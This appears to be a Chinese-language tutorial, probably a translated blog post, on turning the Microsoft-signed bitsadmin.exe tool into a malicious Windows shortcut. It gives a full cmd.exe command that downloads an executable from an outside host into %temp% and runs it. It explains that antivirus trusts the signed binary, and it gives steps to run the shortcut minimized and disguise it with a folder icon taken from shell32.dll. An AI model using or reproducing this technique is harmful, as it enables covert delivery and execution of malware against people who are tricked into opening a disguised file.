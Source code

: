 [https://msdn.microsoft.com/en-us/library/windows/desktop/aa362813(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa362813(v=vs.85).aspx)。

[![](https://p4.ssl.qhimg.com/t010a31deff700a6ed8.png)](https://p4.ssl.qhimg.com/t010a31deff700a6ed8.png)

简单来说，这个命令行工具主要用于创建下载任务并监视其进度。然而，使用这些命令行是非常危险的，因为Bitsadmin.exe带有微软签名，所以其他防病毒软件自然会对它放行，并且它能够以单独的命令行方式使用。

下面是BITSAdmin命令的一个例子： 

```
bitsadmin /transfer downloader /priority normal https://phrozensoft.com/uploads/2016/09/Winja_2_6084_65441_setup.exe %temp%setup.exe
```

现在，让我们使用这个命令行工具来利用一个新的Windows快捷方式。

<br>

**DIY，手动方式 **

在资源管理器中（例如桌面上的空闲处）单击右键，然后单击“Create a new shortcut”菜单项。

[![](https://p5.ssl.qhimg.com/t01977e52d6f71a5bb8.png)](https://p5.ssl.qhimg.com/t01977e52d6f71a5bb8.png)

然后，输入以下命令行： 

```
cmd.exe /C "%windir%System32bitsadmin.exe /transfer downloader /priority normal https://phrozensoft.com/uploads/2016/09/Winja_2_6084_65441_setup.exe %temp%setup.exe &amp; %temp%setup.exe"
```

[![](https://p4.ssl.qhimg.com/t0150043111132703eb.png)](https://p4.ssl.qhimg.com/t0150043111132703eb.png)

然后保存。

现在，在这个快捷方式上面单击右键，然后，选择属性。

[![](https://p1.ssl.qhimg.com/t019a0e9015090f2110.png)](https://p1.ssl.qhimg.com/t019a0e9015090f2110.png)

将“Run”选项切换为“Run Minimized” 

[![](https://p0.ssl.qhimg.com/t019e20fb83543bd349.png)](https://p0.ssl.qhimg.com/t019e20fb83543bd349.png)

最后，将图标换为你最新喜欢的样子（例如文件夹图标） 

为了在共享快捷方式时保持图标不变，建议使用shell32.dll的图标（因为所有Windows系统中都有shell32.dll）。

注意：在Microsoft系统中，除了shell32.dll之外，Ieframe.dll、imageres.dll、pnidui.dll、wmploc.dll等文件的图标也非常有用。

[![](https://p1.ssl.qhimg.com/t01a357e1e2de43fadc.png)](https://p1.ssl.qhimg.com/t01a357e1e2de43fadc.png)

[![](https://p4.ssl.qhimg.com/t010e42defe21a44667.png)](https://p4.ssl.qhimg.com/t010e42defe21a44667.png)

好了，恶意快捷方式现已准备就绪了。
